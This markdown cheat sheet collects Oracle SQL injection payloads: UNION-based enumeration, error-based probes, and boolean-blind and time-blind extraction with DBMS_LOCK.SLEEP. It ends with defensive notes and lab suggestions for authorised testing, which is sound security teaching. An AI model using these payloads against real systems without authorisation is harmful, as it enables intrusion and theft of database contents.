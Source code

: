 # Oracle — Example SQL Injection Payloads & Notes (Non‑destructive, Educational)

> [!WARNING]
> **Ethics reminder:** The examples in this file are for education and authorized testing only. Do **not** run these payloads against systems you do not own or do not have explicit written permission to test. Oracle environments often have sensitive data and privileged functions — practice only in labs or controlled instances.

---

## Contents

* Basic detection probes
* UNION-based examples (non-destructive)
* Error-based examples (safe probes)
* Boolean-based blind examples
* Time-based blind examples (`DBMS_LOCK.SLEEP`, caveats)
* Stacked-queries and statement behavior in Oracle contexts
* Oracle-specific functions & packages (UTL\_HTTP, UTL\_INADDR, DBMS\_LDAP)
* Defensive notes specific to Oracle

---

## 1. Basic detection probes

Start with simple probes to see if user input influences SQL:

* `'` — single quote to provoke syntax errors.
* `"` — double quote depending on context.
* `1 OR 1=1` — logical manipulation probe.

Example probe:

```
GET /product?id=1'
```

Look for Oracle-style errors like `ORA-00933: SQL command not properly ended` or `ORA-01756: quoted string not properly terminated`.

---

## 2. UNION-based (non-destructive) examples

Assume original query: `SELECT id, name, price FROM products WHERE id = 'USER_INPUT'`

### Find column count

Use incremental `NULL` placeholders:

```sql
' UNION SELECT NULL FROM dual --
' UNION SELECT NULL, NULL FROM dual --
' UNION SELECT NULL, NULL, NULL FROM dual --
```

Stop when you no longer get column-count errors. Oracle often requires selecting from `DUAL` for standalone selects.

### Identify display columns

```sql
' UNION SELECT 'C1', 'C2', 'C3' FROM dual --
```

Observe which markers appear in the output to map reflected columns.

### Non-destructive enumeration examples

Once you identify reflection points:

```sql
' UNION SELECT NULL, banner, NULL FROM v$version --
' UNION SELECT NULL, user, NULL FROM dual --
```

Be aware that access to dynamic performance views (e.g., `v$version`) may be restricted.

---

## 3. Error-based (safe probes)

Trigger controlled errors to fingerprint the DBMS and observe behavior.

* Single quote: `'`
* Conversion or function errors (illustrative):

```sql
' AND 1=(SELECT TO_NUMBER((SELECT user) ) ) --
```

This may produce an `ORA-01722: invalid number` error revealing the attempted conversion context.

Avoid aggressive error payloads on production systems.

---

## 4. Boolean-based blind examples

Character extraction pattern (Oracle):

```sql
' AND SUBSTR((SELECT user FROM dual),1,1) = 'o' --
```

Confirm influence with `AND 1=1` / `AND 1=2` before attempting extraction.

Optimizations:

* Use `SUBSTR` instead of `SUBSTRING` (Oracle syntax).
* Limit character set and use binary search techniques where applicable.

---

## 5. Time-based blind examples (Oracle)

Oracle may provide `DBMS_LOCK.SLEEP(seconds)` or other timing mechanisms but they frequently require higher privileges.

### Example timing pattern (requires privileges)

```sql
' AND CASE WHEN SUBSTR((SELECT user FROM dual),1,1) = 'o' THEN DBMS_LOCK.SLEEP(5) ELSE NULL END IS NULL --
```

**Caveats:**

* `DBMS_LOCK.SLEEP` may require `EXECUTE` privilege on the `DBMS_LOCK` package.
* Many Oracle setups restrict usage of packages like `UTL_HTTP` and `DBMS_PIPE`.

---

## 6. Stacked-queries and statement behavior in Oracle

Oracle client APIs typically execute single statements per call in application contexts; stacked queries using `;` are less commonly exploitable via typical app interfaces. However, vulnerabilities can still arise in PL/SQL execution contexts or via dynamic SQL executed by the server.

### Safe check for multi-statement behavior (conceptual)

```sql
' ; BEGIN NULL; END; --
```

Test carefully in lab settings — Oracle’s PL/SQL block syntax differs from simple stacked statements.

---

## 7. Oracle-specific functions & packages

* `user` — current user name (can be selected from `dual`)
* `SYS_CONTEXT('USERENV','DB_NAME')` — environment context values
* `v$version`, `product_component_version`, `banner` — version info (privilege-dependent)
* `DBMS_LOCK.SLEEP(seconds)` — sleep function (privilege-dependent)
* `UTL_HTTP.REQUEST` — perform HTTP requests (privilege-dependent)
* `UTL_INADDR.GET_HOST_ADDRESS` — DNS resolution functions (privilege-dependent)
* `DBMS_PIPE` / `DBMS_OUTPUT` — intra-db messaging (varies by config)

Many of these packages require elevated privileges; modern hardened environments restrict access for application accounts.

---

## 8. Defensive notes specific to Oracle

> [!NOTE]
> * **Least privilege:** application accounts should not have `EXECUTE` permissions on powerful packages (`UTL_HTTP`, `DBMS_LOCK`, etc.).
> * **Use bind variables** and avoid string concatenation when building SQL or PL/SQL blocks.
> * **Limit access** to dynamic performance views and SYS-owned objects where possible.
> * **Disable or control network-capable packages** for application roles to stop OOB exfiltration via HTTP/DNS.
> * **Hide detailed Oracle errors** from end users and log exceptions internally.

---

## 9. Where to practice safely

> [!TIP]
> * Local Oracle Express (XE) instances with intentionally vulnerable web apps.
> * PortSwigger Academy labs (when Oracle targets are available).
> * Custom lab VMs configured to simulate Oracle-backed applications.